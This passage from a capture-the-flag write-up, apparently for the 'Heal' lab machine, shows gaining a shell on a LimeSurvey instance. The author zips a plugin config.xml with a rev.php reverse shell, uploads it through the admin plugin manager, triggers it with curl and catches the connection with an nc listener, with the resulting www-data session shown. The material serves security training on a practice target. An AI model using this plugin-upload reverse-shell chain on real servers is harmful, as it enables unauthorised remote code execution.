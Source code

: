 ```xml
                <![CDATA[Author : Y1LD1R1M]]></description>
    </metadata>

    <compatibility>
        <version>3.0</version>
        <version>4.0</version>
        <version>5.0</version>  
        <version>6.6.4</version>
    </compatibility>
    <updaters disabled="disabled"></updaters>
</config>
```

And a file to get the reverse shell, you can customize it.

![[Pasted image 20241221145855.png]]

```zsh
❯ ll
total 12
-rw-rw-r-- 1 kali kali  779 Dec 21 01:21 config.xml
-rwxr-xr-x 1 kali kali 5493 Dec 21 01:15 rev.php

❯ 7z a rev.zip config.xml rev.php

```

Go to `http://take-survey.heal.htb/index.php/admin/pluginmanager/sa/index` upload and install the `rev.zip` file.

![[Pasted image 20241221132308.png]]

The other side:

```zsh
❯ curl http://take-survey.heal.htb/upload/plugins/rev/rev.php
```

And we get the shell of `www-data`.

```zsh
❯ rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.56] from (UNKNOWN) [10.10.11.46] 40128
Linux heal 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
 06:31:02 up 14:49,  1 user,  load average: 0.04, 0.03, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
ron      pts/3    10.10.14.66      04:51   29.00s  0.52s  0.05s /bin/bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```
